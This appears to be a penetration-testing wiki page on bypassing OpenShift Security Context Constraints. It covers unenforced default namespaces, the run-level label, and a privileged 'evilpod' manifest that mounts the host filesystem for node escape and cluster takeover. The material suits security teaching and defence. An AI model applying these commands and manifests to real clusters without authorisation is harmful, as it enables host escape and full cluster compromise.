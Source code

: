 # Openshift - SCC bypass

**The original author of this page is** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Privileged Namespaces

By default, SCC does not apply on following projects :

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

If you deploy pods within one of those namespaces, no SCC will be enforced, allowing for the deployment of privileged pods or mounting of the host file system.

## Namespace Label

There is a way to disable the SCC application on your pod according to RedHat documentation. You will need to have at least one of the following permission :

- Create a Namespace and Create a Pod on this Namespace
- Edit a Namespace and Create a Pod on this Namespace

```bash
$ oc auth can-i create namespaces
  yes

$ oc auth can-i patch namespaces
  yes
```

The specific label`openshift.io/run-level` enables users to circumvent SCCs for applications. As per RedHat documentation, when this label is utilized, no SCCs are enforced on all pods within that namespace, effectively removing any restrictions.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Add Label

To add the label in your namespace :

```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```

To create a namespace with the label through a YAML file:

```yaml
apiVersion: v1
kind: Namespace
metadata:
  name: evil
  labels:
    openshift.io/run-level: 0
```

Now, all new pods created on the namespace should not have any SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$                                            
</strong></code></pre>

In the absence of SCC, there are no restrictions on your pod definition. This means that a malicious pod can be easily created to escape onto the host system.

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: evilpod
  labels:
    kubernetes.io/hostname: evilpod
spec:
  hostNetwork: true #Bind pod network to the host network
  hostPID: true #See host processes
  hostIPC: true #Access host inter processes
  containers:
    - name: evil
      image: MYIMAGE
      imagePullPolicy: IfNotPresent
      securityContext:
        privileged: true
        allowPrivilegeEscalation: true
      resources:
        limits:
          memory: 200Mi
        requests:
          cpu: 30m
          memory: 100Mi
      volumeMounts:
        - name: hostrootfs
          mountPath: /mnt
  volumes:
    - name: hostrootfs
      hostPath:
        path:
```

Now, it has become easier to escalate privileges to access the host system and subsequently take over the entire cluster, gaining 'cluster-admin' privileges. Look for **Node-Post Exploitation** part in the following page :

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Custom labels

Furthermore, based on the target setup, some custom labels / annotations may be used in the same way as the previous attack scenario. Even if it is not made for, labels could be used to give permissions, restrict or not a specific resource.

Try to look for custom labels if you can read some resources. Here a list of interesting resources :

- Pod
- Deployment
- Namespace
- Service
- Route

```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```

## List all privileged namespaces

```bash
$ oc get project -o yaml | grep 'run-level' -b5
```

## Advanced exploit

In OpenShift, as demonstrated earlier, having permission to deploy a pod in a namespace with the `openshift.io/run-level`label can lead to a straightforward takeover of the cluster. From a cluster settings perspective, this functionality **cannot be disabled**, as it is inherent to OpenShift's design.

However, mitigation measures like **Open Policy Agent GateKeeper** can prevent users from setting this label.

To bypass GateKeeper's rules and set this label to execute a cluster takeover, **attackers would need to identify alternative methods.**

## References

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)

